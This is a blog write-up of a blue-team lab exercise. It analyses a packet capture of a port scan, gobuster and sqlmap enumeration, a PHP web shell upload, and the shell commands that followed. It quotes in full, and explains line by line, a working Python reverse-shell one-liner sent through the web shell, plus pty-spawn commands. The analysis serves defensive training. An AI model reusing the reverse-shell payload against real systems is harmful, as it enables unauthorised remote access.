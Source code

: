 ```yaml
---
draft: false
author: ladybuginthemug
title: Web shell - network analysis 
description: The SOC received an alert in their SIEM for ‘Local to Local Port Scanning’ where an internal private IP began scanning another internal system. 
date: 2024-01-06
category:
  - blueteamlabs
---
```


>Scenario
>
>The SOC received an alert in their SIEM for ‘Local to Local Port Scanning’ where an internal private IP began scanning another internal system. Can you investigate and determine if this activity is malicious or not? You have been provided a PCAP, investigate using any tools you wish.

My usual approach is to move back and forth from general statistics to a close-up investigation of streams. 

#### PORT SCANNING 

So I would start with **Statistics** -> **Endpoints** -> **TCP**.  By sorting ports we can instantly identify port incrementation which is an indication of the port scanning.

![ports-last](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/64ed0c5d-ed6f-4bb3-ad10-a3d81182d0c5)


The stream reveals that `10.251.96.4` is the IP responsible for conducting the `TCP SYN` port scan activity in the port range of `1-1024`

![TCPSYNscan](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/5c3f9638-fb2e-40e2-af00-aaf537610f87)


Surly enough we would be able to find more automation tools around. Simple search for user agents with `tshark` :

```
└─$ tshark -r BTLOPortScan.pcap -Y "http.user_agent" -T fields -e http.user_agent | sort -u
Apache/2.4.29 (Ubuntu) (internal dummy connection)
gobuster/3.0.1
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.146 Safari/537.36
Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
sqlmap/1.4.7#stable (http://sqlmap.org)

```
It will reveal the tools used which are `Gobuster 3.0.1`


![gobuster](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/c2578128-05ad-4ecb-be9d-5fc636077665)


and `sqlmap 1.4.7`


![sql](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/12fab041-a8b6-46f6-a133-08a75a89bd0b)


---
#### FILE UPLOAD

**Export objects** -> **HTTP** 

![upload](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/71bdf96f-fb65-420e-af04-7efa4d6273e1)

The attacker used `editprofile.php` to upload a web shell `dbfunctions.php`:  

```
"16102","2021-02-07 16:40:39.693318843","10.251.96.4","10.251.96.5","HTTP","1087","POST /upload.php HTTP/1.1  (application/x-php)"
"16106","2021-02-07 16:40:43.892078780","10.251.96.4","10.251.96.5","HTTP","433","GET /uploads/ HTTP/1.1 "
"16110","2021-02-07 16:40:43.925237417","10.251.96.4","10.251.96.5","HTTP","401","GET /icons/unknown.gif HTTP/1.1 "
"16115","2021-02-07 16:40:43.928118120","10.251.96.4","10.251.96.5","HTTP","400","GET /icons/image2.gif HTTP/1.1 "
"16121","2021-02-07 16:40:45.168306955","10.251.96.4","10.251.96.5","HTTP","486","GET /uploads/dbfunctions.php HTTP/1.1 "
```
![webshell](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/49fdf490-a307-4820-a55d-1164ebff6bc9)

`GET /uploads/ HTTP/1.1` and response `HTTP/1.1 200 OK` with HTML of a simple directory listing page generated by an Apache web server - confirmed it :

```
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
....  processed HTML content ....

Title: Index of /uploads

Main Heading: Index of /uploads

[PARENTDIR]	Parent Directory	  -	 
	dbfunctions.php	2021-02-07 16:40	116	 
	myphoto.png	2021-02-07 16:38	7.1K	

Apache/2.4.29 (Ubuntu) Server at 10.251.96.5 Port 80

```

We can spot the first commands used in the web shell :

```
"16134","2021-02-07 16:40:51.125681644","10.251.96.4","10.251.96.5","HTTP","455","GET /uploads/dbfunctions.php?cmd=id HTTP/1.1 "
"16144","2021-02-07 16:40:56.263731727","10.251.96.4","10.251.96.5","HTTP","459","GET /uploads/dbfunctions.php?cmd=whoami HTTP/1.1 "
"16201","2021-02-07 16:42:35.675646891","10.251.96.4","10.251.96.5","HTTP","706","GET /uploads/dbfunctions.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.251.96.4%22,4422));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27 HTTP/1.1 "
```

The last request is trying to exploit a vulnerability in the server by injecting a Python one-liner that establishes a reverse shell connection to the specified IP and port in the following steps:

- Imports the socket, subprocess, and os modules.
```
python -c import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
```
- Creates a socket and connects to the IP address 10.251.96.4 on port 4422.
```
s.connect(("10.251.96.4",4422));
```
- Duplicates the socket's file descriptor to the standard input (0), standard output (1), and standard error (2).
```
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
```
- Calls /bin/sh (a shell) with the -i flag, which starts an interactive shell.

```
p=subprocess.call(["/bin/sh","-i"]);
```

---

#### SHELL CONNECTION

![shell-python](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/52058542-85ec-48c7-b96f-916ca5739572)


Following tcp stream on port 4422, we can confirm that the reverse shell connection is established. 

The attempts to escalate privileges appear to have been made by executing commands such as `python -c 'import pty; pty.spawn("/bin/bash")'` and `bash -i`. These commands are commonly used to attempt to gain a more interactive shell or elevate privileges.
However, there is no explicit indication in the log that these privilege escalation attempts were successful. The user continues to operate with the same username `www-data` and there are no indications of a change in privileges or access to restricted areas of the file system.
Not only that but also a malicious actor was not even able to clean up traits he left behind in the form of `dbfuncs.php`:

```
addcart.php  common.php     consts.php	 editprofile.php  info.php   upload.php
browse.php   complaint.php  dbfuncs.php  index.php	  login.php  uploads
www-data@bob-appserver:/var/www/html$ rrmm  ddbb	funcs.php 

rm: cannot remove 'dbfuncs.php': Operation not permitted
www-data@bob-appserver:/var/www/html$ llss

```

